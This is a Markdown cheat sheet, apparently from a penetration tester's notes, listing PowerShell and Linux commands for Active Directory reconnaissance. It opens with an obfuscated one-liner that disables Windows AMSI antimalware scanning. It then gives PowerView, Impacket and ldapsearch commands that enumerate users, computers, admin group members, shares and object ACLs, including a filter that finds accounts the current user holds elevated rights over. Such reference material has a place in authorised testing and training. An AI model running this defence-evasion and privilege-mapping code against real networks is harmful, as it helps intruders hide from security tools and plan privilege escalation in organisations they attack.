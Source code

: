 ```yaml
---
layout: page
title: "# Enum Users / Computers / Shares / DACL Commands"
permalink: /ad_cheatsheets/enum_users_computers_shares_dacl_commands
---
```


# Enum Users / Computers / Shares / DACL Commands

## Bypass AMSI antivirus

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Enum Users

```powershell
#PowerView
Get-NetUser | select samaccountname

#Impacket
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 172.16.75.168 complyedge.com/pete

#LDAP Search - Users incl. extended info
ldapsearch -Y GSSAPI -H ldap://dmzdc01.complyedge.com -D "pete@complyedge.com" -W -b "dc=complyedge,dc=com" '(&(objectClass=user))'
```

## Enum Computers

```powershell
#PowerView
Get-NetComputer

#LDAP Search - Computers incl. extended info
ldapsearch -Y GSSAPI -H ldap://dmzdc01.complyedge.com -D "pete@complyedge.com" -W -b "dc=complyedge,dc=com" '(&(objectClass=computer))'
```

## Enum Members of Domain Admin Group

```powershell
Get-NetGroupMember -GroupName "Domain Admins"
```

## Enum Members of Ent. admin

```powershell
Get-NetGroupMember -GroupName "Enterprise Admins" -Domain moneycorp.local
```

## Enum Shares

```powershell
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
```

## Enum DACL

```powershell
powershell -ep bypass
. .\powerview.ps1
Get-ObjectAcl -Identity %username%
```

## Convert SID

```powershell
powershell -ep bypass
. .\powerview.ps1
ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
```

## Enum DACL and convert SID

```powershell
Get-ObjectAcl -Identity %USERNAME% -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

### Get all ACE's of all domain users and resolve the SID - Then filter on usernames that match our current user as set in the $env:UserDomain and $env:Username environment variables

This shows us the accounts our current user has elevated privileges over:

```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Do the same with domain groups:

```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Resources:

[PowerView: Active Directory Enumeration](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview)

[PowerView-3.0 tips and tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
